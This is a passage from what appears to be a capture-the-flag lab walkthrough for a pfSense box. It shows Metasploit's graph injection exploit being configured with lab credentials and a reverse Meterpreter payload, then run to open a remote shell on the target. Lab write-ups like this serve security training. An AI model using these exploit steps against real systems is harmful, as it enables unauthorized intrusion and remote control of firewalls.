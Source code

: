 ```
 
Interact with a module by name or index. For example info 3, use 3 or use exploit/unix/http/pfsense_group_member_exec
```

## we know we have rrd graph in sense page after login . let's use graph injection modules.

```
msf6 > use exploit/unix/http/pfsense_graph_injection_exec
```

##  And then set options .

```
msf6 exploit(unix/http/pfsense_graph_injection_exec) > show options 
 
Module options (exploit/unix/http/pfsense_graph_injection_exec): 
 
   Name      Current Setting  Required  Description 
   ----      ---------------  --------  ----------- 
   PASSWORD  pfsense          yes       Password to login with 
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...] 
   RHOSTS    10.10.10.60      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Me 
                                        tasploit 
   RPORT     443              yes       The target port (TCP) 
   SSL       true             no        Negotiate SSL/TLS for outgoing connections 
   USERNAME  rohit            yes       User to login with 
   VHOST                      no        HTTP server virtual host 
 
 
Payload options (php/meterpreter/reverse_tcp): 
 
   Name   Current Setting  Required  Description 
   ----   ---------------  --------  ----------- 
   LHOST  10.10.14.5       yes       The listen address (an interface may be specified) 
   LPORT  4444             yes       The listen port 
 
 
Exploit target: 
 
   Id  Name 
   --  ---- 
   0   Automatic Target 
```

## now run the exploit 

```
msf6 exploit(unix/http/pfsense_graph_injection_exec) > run 
 
[*] Started reverse TCP handler on 10.10.14.5:4444  
[*] Detected pfSense 2.1.3-RELEASE, uploading intial payload 
[*] Payload uploaded successfully, executing 
[*] Sending stage (39282 bytes) to 10.10.10.60 
[+] Deleted saLxrV 
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.60:64670 ) at 2022-04-05 08:51:48 +0530 
 
meterpreter > shell 
Process 74527 created. 
```